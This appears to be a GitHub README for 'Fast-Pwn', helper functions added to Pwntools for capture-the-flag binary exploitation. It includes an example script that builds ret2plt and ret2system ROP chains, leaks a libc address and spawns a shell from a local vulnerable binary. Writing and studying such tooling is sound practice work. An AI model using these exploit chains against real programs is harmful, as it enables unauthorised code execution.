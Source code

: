 # Fast-Pwn
Some code I have added to my local Pwntools to speed up things.

Functions Added - 

- ret2system() - creates a return to system rop chain, accepts two arguments align and bin_sh
- ret2plt() - creates a return to plt rop chain, accepts two arguments leak and ret
- recv_libc_leak() - receive 6 bytes on amd64 and 4 bytes on i386, then unpack tye address and substract the offset and return libc base address, accepts one argument offset
- sendpayload() - accepts 2 arguments offset and payload and send flat{offset:payload}
- find_bin_sh() - return /bin/sh address 
- section_addr() - return the address of section like(.bss,.data), accepts 2 arguments name and offset

Quick Fixes -

- libc() - I like to use elf.libc but it is broken so i fixed it but still works only on 64 bit, requirement - `pip3 install pylddwrap`

Example - 

```python
from pwn import *

elf = context.binary = ELF("vuln")
rop = ROP(elf)
libc = elf.libc
offset = 136

io = process()
io.clean()

rop.ret2plt(leak=elf.got.puts, ret=elf.sym.main)
io.sendpayload(offset=offset, payload=rop.chain())

io.recvline()
libc.address = io.recv_libc_leak(offset=libc.sym.puts)

rop1 = ROP(libc)
rop1.ret2system(aling=True)
io.sendpayload(offset=offset, payload=rop1.chain())
io.interactive()
```

# Changes Made
### Added Code to -

[pwnlib/rop/rop.py](pwnlib/rop/rop.py) - Added 2 functions ret2plt and ret2system from line 1552 to 1561
[pwnlib/elf/elf.py](pwnlib/elf/elf.py) - Added 2 functions section_addr and find_bin_sh from line 1547 to 1570, Edited libc function from line 716 to 723
[pwnlib/tubes/tube.py](pwnlib/tubes/tube.py) - Added 1 function sendpayload from line 863 to 872, Added 1 function recv_libc_leak from line 753 to 763

### Created New File

[pwnlib/rop/ret2system.py](pwnlib/rop/ret2system.py)
[pwnlib/rop/ret2plt.py](pwnlib/rop/ret2plt.py)

